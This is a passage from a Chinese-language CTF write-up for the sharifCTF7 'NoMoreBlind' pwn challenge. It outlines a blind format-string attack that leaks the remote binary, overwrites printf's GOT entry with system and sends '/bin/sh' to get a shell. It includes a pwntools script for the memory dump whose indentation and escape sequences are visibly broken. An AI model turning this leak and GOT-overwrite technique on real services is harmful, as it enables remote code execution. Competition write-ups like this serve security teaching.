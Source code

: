 

**3、sharifCTF7-NoMoreBlind（pwn 200）**

```
nc ctf.sharif.edu 54514
```

这题可以无限次输入字符串，每次均可得到反馈。通过输入“%3$p%4$p”进行测试，我们可以确定目标系统是32bit的，且偏移为4。本题的flag不在栈上，需要通过getshell来寻找，主要思路如下：

通过格式化字符串漏洞，利用%s将目标ELF文件dump出来；

分析并修复返回的ELF文件；

通过逆向ELF文件，了解程序的基本流程以及所用libc函数的GOT以获得system函数的实际地址；

将system函数地址写入printf函数的GOT表项处；

通过输入“/bin/sh”，利用已被改为system地址的printf来获得shell。

**3.1 利用格式化字符串漏洞dump出ELF**

先给出代码吧，此代码修改自其他人的，特此说明。

```
from pwn import *
def leakELF(addr):
    p = None
  for i in range(5): #多循环几次，放置连接中断
      try:
        p = remote("ctf.sharif.edu", 54518, timeout=1)
      payload = "ABCD%7$sDCBA" + p32(addr)
      if ("x0a" in payload) or ("x00" in payload):
          log.warning("newline in payload!")
        return "xff"
      p.sendline(payload)
      print p.recvline()
      data2 = p.recvline()
      log.info(hexdump(data2))
      if data2:
          fr = data2.find("ABCD") + 4
        to = data2.find("DCBA")
        res = data2[fr:to]  #定位出泄漏的数据位置
        if res == "":    #说明要泄漏的数据就是x00
            return "x00"
        else:
          return res
      return "xff"  #如果出现异常，先返回xff
    except KeyboardInterrupt:
      raise
    except EOFError:
      log.debug("got EOF for leaking addr 0x`{`:x`}`".format(addr))
      pass
    except Exception:
      log.warning("got exception...", exc_info = sys.exc_info())
    finally:
        if p:
          p.close()
    return "xff"
f = open("nomoreblind-binary", "wb")
base = 0x08048000
leaked = ""
while len(leaked) &lt; 8000:          #假设目标ELF小于8kb
    address = base + len(leaked)  #新的泄露地址等于基地址加上已泄漏的长度
  tmp = leakELF(address)
  leaked += tmp
  log.info(hexdump(leaked))
  with open("nomoreblind-binary", "wb") as f: #将已泄漏的数据写入文件
      f.write(leaked)
```